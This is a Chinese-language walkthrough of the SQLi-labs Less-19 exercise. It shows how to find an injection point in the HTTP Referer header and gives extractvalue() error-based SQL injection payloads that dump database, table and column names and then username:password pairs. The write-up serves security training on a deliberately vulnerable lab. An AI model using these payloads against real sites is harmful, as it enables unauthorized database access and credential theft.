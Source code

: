```yaml
---
title: Less  - 19
date: 2023-03-15T12:57:52Z
lastmod: 2023-03-15T13:20:10Z
---
```


# Less  - 19

---

# 通关教程

---

## 1、判断注入点

---

注意到登录成功时，Referer 会被回显到网页上，我们考虑 Referer 头可能会存在注入。使用 brup 抓包，注入正确的 uname 和 passwd 之后在 Referer 头使用单引号闭合。此时发现当注入单引号闭合时，网页返回报错信息。

```html
Referer: '
```

​![image](assets/image-20230315130258-zhtkivq.png)​

​![image](assets/image-20230315130356-4e3sytb.png)​

注入的步骤和 Less 17 差不多，这次我们使用 extractvalue() 报错注入。extractvalue() 报错注入和 updatexml() 报错差不多，extractvalue() 函数时对 XML 文档进行查询的函数。函数原型为：

```html
extractvalue(XML_document, XPath_string)
```

|参数|说明|
| ------------------------------------------------------------------| ----------------------------|
|XML_document|String，XML 文档对象的名称|
|XPath_string|Xpath 格式的字符串|
|爆数据库名，在注入的两个单引号之间放置 extractvalue() 报错注入。||

---

## 2、查看数据库名

---

```html
' OR extractvalue(1,concat("!",database())) OR ' 
```

​![image](assets/image-20230315131342-zzh3wdh.png)​

---

## 3、查看数据表名

---

```html
' OR extractvalue(1,concat("!",(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'security'))) OR ' 
```

​![image](assets/image-20230315131444-suz0obk.png)​

---

## 4、查看字段名

---

```html
' OR extractvalue(1,concat("!",(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema = 'security' AND table_name = 'users'))) OR ' 
```

​![image](assets/image-20230315131732-ao48rio.png)​

---

## 5、查看字段值

---

```html
' OR (extractvalue(1,concat('!',(SELECT concat_ws(':',username,password) FROM (SELECT username,password FROM users)text LIMIT 0,1)))) OR '
```

​![image](assets/image-20230315132001-8u4oeo2.png)​
